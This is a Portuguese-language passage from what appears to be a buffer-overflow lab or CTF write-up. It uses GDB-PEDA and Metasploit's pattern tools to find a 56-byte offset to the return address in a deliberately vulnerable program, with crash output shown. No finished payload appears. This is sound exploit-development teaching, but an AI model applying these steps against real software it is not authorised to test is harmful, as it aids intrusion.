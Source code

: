 <p>Conforme observado, o programa parou com o erro `segmentation fault`. Se o proximo comando a ser executado, que se encontra no topo da pilha, for consultado, pode-se verificar que ele está preenchido com `0x4141414141414141` (41= A em hexadecimal). O **RSP** pode ser consultado com o comando `x/gx $rsp`.</p>

```
gdb-peda$ x/gx $rsp
0x7fffffffded8: 0x4141414141414141
```

### Encontrando o offset

<p>Através da análise do código fonte, é possível identificar que o *buffer* alocado para a função `vuln` é de 40 bytes, porém, devido aos movimentos de registradores, o buffer para se atingir o **RSP** é diferente. Para se descobrir o *offset* para atingir o endereço desejado, é preciso enviar para o programa um **ciclic pattern**, ou seja, uma cadeia de caracteres que pode ser rastreado para identificarmos o endereço correto.</p>
<p>Para criar este *ciclic pattern*, podemos utilizar o programa `msf-pattern_create` da suide *Metasploit Framework*.</p>

```
$ msf-pattern_create -l 80
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac
```

<p>Este comando cria um *ciclic pattern* de 80 bytes que pode ser enviado para o programa sendo executado no GDB.</p>

```
gdb-peda$ continue
Continuing.
Me alimente: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac
Vc escreveu: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab
7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```
<p>Ao consultar o endereço de **RSP** que causou o erro no programa, é possível encontrar os bytes resultantes.</p>

```
gdb-peda$ x/gx $rsp
0x7fffffffded8: 0x4130634139624138
```

<p>Com o endereço resultante é possível utilizar o programa *msf-pattern_offset*, também da suite *Metasploit Framework*, para consultar o *offset* resultante do endereço.</p>

```
$ msf-pattern_offset -l 80 -q 0x4130634139624138
[*] Exact match at offset 56
```

<p>O *offset* para atingir **RIP** é de 56 bytes. Pode-se testar este *offset* ao enviar novamente um *buffer* para o programa sendo executado no GDB, contndo 56 letras A e 8 letras B. Ao consultar o endereço resultante em **RSP**, ele estará preenchido com o valor `0x4242424242424242` (42 = B em hexadecimal).</p>
